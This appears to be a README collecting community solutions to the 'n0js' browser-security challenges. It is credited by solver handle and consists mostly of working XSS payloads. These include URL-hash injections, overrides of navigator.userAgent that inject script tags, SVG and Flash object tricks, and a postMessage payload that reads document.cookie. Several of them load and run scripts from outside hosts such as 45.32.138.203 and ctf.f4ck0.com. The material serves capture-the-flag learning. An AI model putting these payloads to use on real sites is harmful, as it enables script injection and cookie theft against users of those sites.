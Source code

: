 # n0js Challenges

[http://server.n0tr00t.com/n0js/case1.html](http://server.n0tr00t.com/n0js/case1.html)

#### @Nearg1e [yourneargo@gmail.com]
	- http://server.n0tr00t.com/n0js/case1_writeup.txt

[http://server.n0tr00t.com/n0js/case2.html](http://server.n0tr00t.com/n0js/case2.html)

#### @fyth
    - case2.html?a=location.hash.substr(1)#setTimeout("hi.eval('prompt(location.href)')",500)
    - case2.html?a=location.hash.substr(1)#navigator.__defineGetter__('userAgent', function(){ return '<svg/onload=prompt(location.href)>'})

#### @evi1m0

    - case2.html?a=location.hash.substr(1)#var frame = document.createElement('iframe');
      frame.style.display = 'none'; document.body.appendChild(frame);
      function navigator(){} window.navigator = new Proxy(window.frames[0].window.navigator,
      { get: function(n0t){return "<img src=@ onerror=alert(location.href)>";} })
      
#### 1124696276

    - case2.html?a=location.hash.substr(1)#function createProperty(value){var _value=value;function _get(){return _value}function _set(v){_value=v}return{"get":_get,"set":_set}};
      function makePropertyWritable(objBase,objScopeName,propName,initValue){var newProp,initObj;if(objBase&&objScopeName in objBase&&propName in objBase[objScopeName])
      {if(typeof initValue==="undefined"){initValue=objBase[objScopeName][propName]}
	  newProp=createProperty(initValue);try{Object.defineProperty(objBase[objScopeName],propName,newProp)}
      catch(e){initObj={};initObj[propName]=newProp;
      try{objBase[objScopeName]=Object.create(objBase[objScopeName],initObj)}catch(e){}}}};
      makePropertyWritable(window,"navigator","userAgent");
      window.navigator.userAgent="<script>prompt(location.href)</script>";
    
#### @gaoheby
	- case2.html?a=window.location.hash.substring(1)#Object.defineProperty(navigator,'userAgent',
	  {get:function(){return '<script>prompt(location.href)</script>';}})
    
#### Cnlouds
	- case2.html?test=location.hash.substr(1)#window.addEventListener('load', function(){window.hi.prompt(hi.location.href)});

#### kaotudou [jianshu.com/p/eb22e86635e0]
	- case2.html?1=eval((window.location.search.substring(49)));
      =var/**/script=document.createElement`script`;script.src=`https://
      ctf.f4ck0.com/1.js`;document.body.appendChild(script);

[http://server.n0tr00t.com/n0js/case3.php](http://server.n0tr00t.com/n0js/case3.php)

#### @Nearg1e [yourneargo@gmail.com]
	- case3.php?2017=%3Cobject%20allowscriptaccess=always%3E%20%3Cparam%20name=url%20value=http://tangzi.info:43992/payload/n0js_case3.swf%3E
	- AS3 Script:
	    package {
	        import flash.*;
	        import flash.net.*;
	
	        public class XSS {
	
	            public function XSS():void{
	            }
	            public static function main():void{
	                Lib.getURL(new URLRequest("javascript:a=document.createElement('iframe');a.src='https://www.n0tr00t.com/static/test/helloevent.html';document.body.appendChild(a);setTimeout(function(){window.frames[0].postMessage('<img src=1 onerror=prompt(document.cookie)>','*')},3000);"), "_top");
	            }
	
	        }
	    }
	    
#### daocaoren [jkme.github.io/n0js-case3.html]
	- case3.php?2017=%3Csvg%3E%3Cset+href%3d%23script+attributeName%3dhref+to%3ddata%3a%2cs%3ddocument.createElement(%22script%22)
	  %3bs.src%3d%22http%3a%2f%2f45.32.138.203%2f2.js%22%3bdocument.body.appendChild(s)%3b+%2f%3E%3Cscript+id%3dscript+src%3dfoo%3E%3C%2fscript%3E+
	- jssource:
	    var t = document.createElement("iframe");
	    t.setAttribute("src","https://www.n0tr00t.com/static/test/helloevent.html");
	    document.body.appendChild(t);
	
	    function a(){
	        var b = document.createElement("button");
	        b.setAttribute("onclick","frames[0].postMessage('<img src=x onerror=alert(document.cookie)>','*')");
	        b.click();
	    }
	    //setTimeout("a()",3000);
	    window.onload = a();
	    
[http://server.n0tr00t.com/n0js/case4.php](http://server.n0tr00t.com/n0js/case4.php)